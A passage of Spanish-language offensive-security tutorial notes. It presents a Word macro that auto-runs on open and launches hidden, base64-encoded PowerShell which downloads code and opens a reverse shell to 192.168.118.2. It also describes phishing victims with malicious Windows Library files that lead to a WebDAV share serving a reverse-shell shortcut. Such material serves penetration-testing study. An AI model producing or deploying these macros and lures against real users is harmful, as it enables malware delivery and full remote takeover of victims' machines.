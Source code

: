 3.  Y lo incluimos en el siguiente Macro:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

**Esta sería la plantilla del macro a realizar por el programa Word como Macro en un documento en limpio**. 

Seguidamente, el documento lo guardaríamos con la extensión .doc. y el script correría automáticamente cuando un usuario abriese el documento ejecutando en el acto código malicioso.

<br />



### 3. Abusing Windows Library Files.

#### 3.1. Presentación del concepto.

En primer lugar, las *Windows library files* funcionan como contenedores virtuales; conectan a un usuario con datos almacenados en una localización remota del dominio como servidores web o shares.

Estos ficheros tienen la extensión *.Library-ms* y pueden ser ejecutados pulsando doble clic en Windows Explore como un ejecutable normal, lo cual los coloca como candidato a un posible cebo como fishing. La idea consiste en crear un Windows library malicioso e incitar a un usuario a clikear sobre él.

En realidad el proceso se divide en dos etapas:

- En la primera intentamos que el usuario ejecute un Windows Library file que transporte al usuario sobre una carpeta bajo nuestro control.

- En esta carpeta nosotros habremos colocado un ejecutable malicioso que nos brinde una reverse shell.

De una forma más desarrollada, creamos un Windows Library file conectándonos a un WebDAV share. La víctima recibe (via email por ejemplo) un fichero .Library-ms (un Windows Library) este le conecta con nuestro WebDAV share donde habrá un segundo ejecutable (esta vez preferentemente en forma de link, .lnk) que ejecutará una reverse shell que nos brindará un acceso total a la máquina.
